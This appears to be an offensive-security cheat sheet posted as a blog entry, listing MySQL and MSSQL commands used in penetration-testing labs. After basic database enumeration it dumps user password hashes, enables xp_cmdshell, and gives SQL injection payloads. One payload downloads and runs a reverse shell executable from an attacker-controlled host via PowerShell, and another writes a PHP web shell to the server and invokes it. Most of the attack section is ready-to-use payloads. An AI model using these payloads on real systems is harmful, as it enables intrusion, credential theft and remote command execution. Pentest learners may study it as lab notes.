 ```yaml
---
layout: post
title: SQL COMMANDS
titledate: 09/01/23
tags: ["infosec","offsec", "sql"]
---
```


<h4>MySQL</h4>

connect to remorte mysql database

    $ mysql -u root -p'root' -h 192.168.50.50 -P 3306

    $ select version();

return current user and hostname

    $ select system_user();

list databases

    $ show databases;

show tables in database

    $ show tables from mysql;

enter database

    $ use database;

list users

    $ SELECT user FROM mysql.user; 

list all values available to user

    $ select * from mysql.user where user = 'don';

show authentication_string of user

    $ SELECT user, authentication_string FROM mysql.user WHERE user = 'don';

showing specific value of user

    $ select plugin from mysql.user where user = 'don';


<h4>MSSQL</h4>

we can use impacket to connect to mssql on windows

    $ impacket-mssqlclient Administrator:Lab123@192.168.50.50 -windows-auth

    $ SELECT @@version;

list databases

    $ SELECT name FROM sys.databases;

we don't care about the master tempdb model and msdb databases

query tables in database we care about

    $ SELECT * FROM don.information_schema.tables;

query specific table information

    $ select * from don.dbo.users;

explore sysuers table inside master database

    $ select * from master.dbo.sysusers;

<h4>xp_cmdshell</h4>

after we connect to the db

    $ EXECUTE sp_configure 'show advanced options', 1;
    $ RECONFIGURE;
    $ EXECUTE sp_configure 'xp_cmdshell', 1;
    $ RECONFIGURE;
    $ EXECUTE xp_cmdshell 'whoami';

we can leverage a blind sql injection with xp_cmdshell enabled to download a reverse shell with ps

    admin' EXEC xp_cmdshell "powershell iex(iwr http://192.168.45.215:8000/rs443.exe -Outfile C:\Users\Public\rs443.exe)" --
    
the shell needs to be downloaded to a dir with exec privs

then we can execute

    admin' EXEC xp_cmdshell "(C:\Users\Public\rs443.exe)" --

we can write files on the server with SELECT INTO_OUTFILE

    $ ' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //

here we try to use a union select to write a php web shell to /html/tmp on the server

now by entering the above statement into the form field we are injecting our webshell to the specified directory

and then in the url - we can attempt to perform the http request to our webshell with the cmd=

    http://192.168.50.50/tmp/webshell.php?cmd=id
